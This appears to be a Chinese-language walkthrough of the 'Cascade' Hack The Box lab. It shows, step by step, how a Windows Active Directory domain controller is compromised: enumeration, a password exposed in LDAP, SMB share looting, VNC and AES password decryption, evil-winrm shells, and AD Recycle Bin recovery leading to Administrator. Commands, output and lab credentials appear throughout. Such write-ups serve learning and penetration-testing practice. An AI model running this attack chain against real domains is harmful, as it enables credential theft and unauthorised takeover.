



# README

## 信息收集

### nmap

```shell
sudo nmap -p- --min-rate 10000 10.10.10.182
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 14:24 CST
Nmap scan report for 10.10.10.182
Host is up (0.15s latency).
Not shown: 65520 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49170/tcp open  unknown
```


```shell
sudo nmap -p 53,88,135,139,389,445,636,3268,3269,5985 -sC -sV  10.10.10.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 14:27 CST
Nmap scan report for 10.10.10.182
Host is up (0.11s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-19 06:27:16Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   210:
|_    Message signing enabled and required
| smb2-time:
|   date: 2023-09-19T06:27:30
|_  start_date: 2023-09-19T06:21:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.78 seconds

```

cascade.local


### 53端口

```shell
dig axfr @10.10.10.182 cascade.local

; <<>> DiG 9.10.6 <<>> axfr @10.10.10.182 cascade.local
; (1 server found)
;; global options: +cmd
; Transfer failed.

```

### 135端口

```shell
rpcclient -U "" -N 10.10.10.182
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
rpcclient $> enumdomusers
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[DnsUpdateProxy] rid:[0x44f]
rpcclient $> querydispinfo
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.turnbull	Name: Adrian Turnbull	Desc: (null)
index: 0xebc RID: 0x452 acb: 0x00000210 Account: arksvc	Name: ArkSvc	Desc: (null)
index: 0xee4 RID: 0x468 acb: 0x00000211 Account: b.hanson	Name: Ben Hanson	Desc: (null)
index: 0xee7 RID: 0x46a acb: 0x00000210 Account: BackupSvc	Name: BackupSvc	Desc: (null)
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: CascGuest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xee5 RID: 0x469 acb: 0x00000210 Account: d.burman	Name: David Burman	Desc: (null)
index: 0xee3 RID: 0x467 acb: 0x00000211 Account: e.crowe	Name: Edward Crowe	Desc: (null)
index: 0xeec RID: 0x46f acb: 0x00000211 Account: i.croft	Name: Ian Croft	Desc: (null)
index: 0xeeb RID: 0x46e acb: 0x00000210 Account: j.allen	Name: Joseph Allen	Desc: (null)
index: 0xede RID: 0x462 acb: 0x00000210 Account: j.goodhand	Name: John Goodhand	Desc: (null)
index: 0xed7 RID: 0x45c acb: 0x00000210 Account: j.wakefield	Name: James Wakefield	Desc: (null)
index: 0xeca RID: 0x455 acb: 0x00000210 Account: r.thompson	Name: Ryan Thompson	Desc: (null)
index: 0xedd RID: 0x461 acb: 0x00000210 Account: s.hickson	Name: Stephanie Hickson	Desc: (null)
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith	Name: Steve Smith	Desc: (null)
index: 0xed2 RID: 0x457 acb: 0x00000210 Account: util	Name: Util	Desc: (null)
rpcclient $>
```

得到用户列表：

```shell
CascGuest
arksvc
s.smith
r.thompson
util
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
BackupSvc
j.allen
i.croft
```

### 445端口

```shell
smbclient -N -L //10.10.10.182/
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available

```

### 389端口

```shell
ldapsearch -x -h 10.10.10.182  -b "dc=cascade,dc=local" '(objectClass=person)'
```

r.thompson的信息有密码：

```shell
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```

r.thompson:rY4n5eva

### 88端口

```shell
 ./kerbrute_darwin_amd64 userenum --dc 10.10.10.182 -d cascade.local ./user.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/19/23 - Ronnie Flathers @ropnop

2023/09/19 14:39:43 >  Using KDC(s):
2023/09/19 14:39:43 >  	10.10.10.182:88

2023/09/19 14:39:48 >  [+] VALID USERNAME:	 j.wakefield@cascade.local
2023/09/19 14:39:48 >  [+] VALID USERNAME:	 arksvc@cascade.local
2023/09/19 14:39:48 >  [+] VALID USERNAME:	 util@cascade.local
2023/09/19 14:39:48 >  [+] VALID USERNAME:	 a.turnbull@cascade.local
2023/09/19 14:39:48 >  [+] VALID USERNAME:	 s.hickson@cascade.local
2023/09/19 14:39:48 >  [+] VALID USERNAME:	 r.thompson@cascade.local
2023/09/19 14:39:48 >  [+] VALID USERNAME:	 j.goodhand@cascade.local
2023/09/19 14:39:48 >  [+] VALID USERNAME:	 s.smith@cascade.local
2023/09/19 14:39:53 >  [+] VALID USERNAME:	 BackupSvc@cascade.local
2023/09/19 14:39:53 >  [+] VALID USERNAME:	 d.burman@cascade.local
2023/09/19 14:39:53 >  [+] VALID USERNAME:	 j.allen@cascade.local
2023/09/19 14:39:53 >  Done! Tested 15 usernames (11 valid) in 10.891 seconds

```

尝试AS-REP Roasting失败：

```shell
python3.10 GetNPUsers.py -dc-ip 10.10.10.182 cascade.local/ -usersfile user.txt
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User arksvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User r.thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User util doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.wakefield doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.hickson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.goodhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.turnbull doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User d.burman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User BackupSvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.allen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)

```


## r.thompson用户

r.thompson:rY4n5eva

```shell
smbmap -H 10.10.10.182 -u "r.thompson" -p "rY4n5eva"

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.182:445	Name: 10.10.10.182
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	Audit$                                            	NO ACCESS
	C$                                                	NO ACCESS	Default share
	Data                                              	READ ONLY
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	print$                                            	READ ONLY	Printer Drivers
	SYSVOL                                            	READ ONLY	Logon server share

```

读取Data目录发现只能访问IT目录，将其中的东西下载下来得到了如下内容：

Username is TempAdmin (password is the same as the normal admin account password).

可以得到一个TempAdmin账号，密码和normal admin account一样

还读到了vnc密码：

vnc "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

```shell
echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pass
./vncpwd vnc_enc_pass
```

得到sT333ve2


## s.smith用户

猜测是s.smith的密码，evil-winrm成功登录：

```shell
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

发现Users下面还有个arksvc用户。

提前准备好bloodhound：

```shell
python3 bloodhound.py  -u s.smith -p 'sT333ve2' -d cascade.local --zip -c all -ns 10.10.10.182
```


smb里面s.smith还是读不了除了IT以外的其他目录，

但是s.smith可以访问audit目录，里面的db里面有audit.db，下载下来连上去：





有个ArkSvc的密码BQO5l5Kj9MdErXx6Q6AGOw==。

```shell
file CascAudit.exe
CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

CascAudit.exe是个.Net的windows程序，放到windows中拿dnSpy反编译：

```c#
password = Crypto.DecryptString(encryptedString, "c4scadek3y654321");

		public static string DecryptString(string EncryptedString, string Key)
		{
			byte[] array = Convert.FromBase64String(EncryptedString);
			Aes aes = Aes.Create();
			aes.KeySize = 128;
			aes.BlockSize = 128;
			aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
			aes.Mode = CipherMode.CBC;
			aes.Key = Encoding.UTF8.GetBytes(Key);
			string @string;
			using (MemoryStream memoryStream = new MemoryStream(array))
			{
				using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Read))
				{
					byte[] array2 = new byte[checked(array.Length - 1 + 1)];
					cryptoStream.Read(array2, 0, array2.Length);
					@string = Encoding.UTF8.GetString(array2);
				}
			}
			return @string;
		}
```

发现是个AES加密，解一下即可：



不过我没有动态调试成功，不知道为什么。

得到ArkSvc:w3lc0meFr31nd

## ArkSvc用户

```shell
evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

发现他属于AD Recycle Bin组，这个组可以恢复被删除的对象，也可以获取被删除对象的信息。

参考https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/和https://petri.com/active-directory-recycle-bin/

列出所有被删除的对象：

```shell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

获取这个对象的信息：

```shell
Get-ADObject -filter 'ObjectGUID -eq "f0cc344d-31e0-4866-bceb-a842791ca059"' -includeDeletedObjects -Properties *

#下面的也可以
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```

发现了cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz

解密得到baCT3r1aN00dles

有了TempAdmin:baCT3r1aN00dles

根据之前的提示，这个密码也是管理员的账号：

```shell
evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
```

